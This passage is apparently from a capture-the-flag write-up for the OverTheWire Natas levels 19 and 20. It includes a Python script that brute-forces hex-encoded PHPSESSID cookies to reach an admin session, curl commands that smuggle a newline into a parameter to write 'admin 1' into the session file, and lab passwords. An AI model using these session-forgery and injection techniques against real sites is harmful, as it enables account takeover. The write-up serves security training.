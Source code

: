 ```
You are an admin. The credentials for the next level are:
Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

# 20. Level 19

This level the `PHPSESSID` field of the cookie is not a simple number.
Let me see some samples.

```
PHPSESSID: 3332352d61      ~   325-a
PHPSESSID: 39342d617364    ~   94-asd
PHPSESSID: 3139382d617364  ~   198-asd
```

Obviously the `PHPSESSID` consists of a number and a username and every character is expressed in hexadecimal.

```python
#!/usr/bin/env python3
import requests

for i in range(641):
    auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')
    cookies = {'PHPSESSID': ''.join([hex(ord(ch))[2:] for ch in str(i)+"-admin"])}
    r = requests.get('http://natas19.natas.labs.overthewire.org/', auth = auth, cookies = cookies)
    if 'You are an admin' in r.text:
        print(r.text)
        break
```

```
You are an admin. The credentials for the next level are:
Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
```

# 21. Level 20

This level we try to write `admin 1` to the session file and save the cookie in `cookie.txt`.

```
$ curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF 'http://natas20.natas.labs.overthewire.org/?name=ving%0Aadmin%201&debug' -c cookie.txt
```

The session file will be writen as below.

```
name ving
admin 1
```

```
$ curl -u natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF http://natas20.natas.labs.overthewire.org/?debug -b cookie.txt
```
